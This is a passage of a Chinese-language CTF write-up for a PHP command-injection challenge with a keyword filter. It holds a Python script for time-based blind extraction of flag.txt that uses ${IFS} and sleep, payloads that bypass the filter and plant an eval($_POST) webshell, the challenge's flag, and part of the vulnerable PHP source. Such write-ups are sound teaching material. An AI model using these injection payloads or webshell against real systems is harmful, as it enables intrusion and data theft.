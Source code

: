 ```python
		break
count = 0
for i in range(flaglen):
	count += 1
	sign = 0
	for letter in alphabet:
		payload = ''
		payload += 'a=`cut${IFS}-c${IFS}'
		payload += str(count)
		payload += '''${IFS}flag.txt`;${IFS}[${IFS}$a${IFS}=${IFS}"'''
		payload += letter
		payload += '''"${IFS}]${IFS}&&${IFS}sleep${IFS}3'''
		data = {'cmd':payload}
		a = time.time()
		r = requests.post(url,data=data)
		b = time.time()
		if (b-a)>2 :
			print "!!!!!!!!!!!!!!!!!!!!!!!!!!!!YES!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"
			flag+=letter
			sign = 1
			print flag
			break
	if sign == 0:
		print "@@@@@@@@@@@@@@@@@@@@@ERROR@@@@@@@@@@@@@@@@@@@@@@@@@@"

print flag

```

在做出post1的情况下这道题就剩各种骚套路了

```bash
# 非预期，flag文件没有改名，访问pNHYVfirTGWAIygv.txt直接得flag

# 可得index.php源码和任意命令执行（有回显）
cmd=echo 'show_source("index.php");system("l"."s");'#cut

# 直接getshell
cmd=echo 'eval($_POST["t"]);'#cut
t=phpinfo();
```

本题flag

```
flag{WOw_Cut_4Nd_C4t_lo0kS_S4m3}
```

本题源码

```php
<?php 
    echo "POST[cmd] 这次我们玩过滤好了。"; 
    $b = $_POST['cmd']; 
    if (strpos($b,'cut') === false && isset($b)){ 
        die("没抓到重点"); 
    } 
    if (strpos($b,'ls') !== false){ 
        die("你挺能绕的...但不是这个意思啊..."); 
    } 
    if (strpos($b,'cat') !== false){ 
        die("你挺能绕的...但不是这个意思啊..."); 
    } 
    if (strpos($b,'rm') !== false){ 
        die("你挺能绕的...但不是这个意思啊..."); 
    } 
    if (strpos($b,'whoami') !== false){ 
```